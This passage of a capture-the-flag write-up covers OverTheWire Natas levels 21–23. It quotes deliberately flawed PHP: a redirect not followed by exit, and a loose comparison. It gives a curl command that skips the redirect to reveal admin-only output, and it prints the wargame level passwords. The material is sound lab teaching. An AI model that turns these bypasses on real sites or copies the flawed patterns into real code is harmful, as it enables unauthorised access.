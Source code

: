 ```
You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

### natas22

```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?> 
```

In the browser, try access: http://natas22.natas.labs.overthewire.org/?revelio to get password. But it's nothing???

Because `header("Location: /");` in source code, the browser redirect to root page (/), Let's use `curl`:

```sh
curl --user natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/?revelio
```

```
You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

### natas23

```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```
